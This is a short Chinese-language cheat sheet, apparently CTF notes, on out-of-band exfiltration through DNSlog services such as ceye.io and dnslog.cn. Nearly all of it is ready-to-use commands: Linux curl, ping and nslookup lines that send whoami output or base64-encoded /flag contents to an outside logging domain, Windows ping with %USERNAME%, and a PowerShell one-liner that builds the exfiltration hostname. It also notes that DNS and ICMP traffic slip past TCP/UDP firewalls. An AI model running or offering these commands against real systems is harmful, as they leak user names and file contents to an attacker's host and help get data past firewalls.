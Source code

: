 myDNSlog：
2qytvx.ceye.io
可获取出网ip和 DNS的url记录和 请求的url记录。
发起DNS请求可以顺带携带出参数。
而ping位于运输层下面icmp协议，不受一般tcp/udp层的防火墙拦截，只会有DNS请求纪录。
 <http://dnslog.cn>
<http://ceye.io>
<http://admin.dnslog.link>



### 1. linux:

```
curl http://ip.port.b182oj.ceye.io/`whoami` 
curl http://ip.port.b182oj.ceye.io/`cat /flag|base64` 
curl http://2qytvx.ceye.io/?r=$(cat /flag)

linux会先执行whoami,再ping,curl


ping `whoami`.ip.port.2qytvx.ceye.io
ping对域名比较严格，域名不能有{}，==，\，/
找不到主机:
{666}.2qytvx.ceye.io
2qytvx.ceye.io/{666}


nslookup `cat /flag|base64`.2qytvx.ceye.io
转成base64携带
```

### 2. windows
携带系统变量
```
ping %USERNAME%.2qytvx.ceye.io
```
不使用cmd使用win7后自带的powershell可以自定义变量：
```
powershell $x=whoami;$x=$x.Replace('\','xxx');$y='.2qytvx.ceye.io';$z=$x+$y;ping $z
```
ping对域名比较严格，域名不能有/。这里将/替换成xxx了。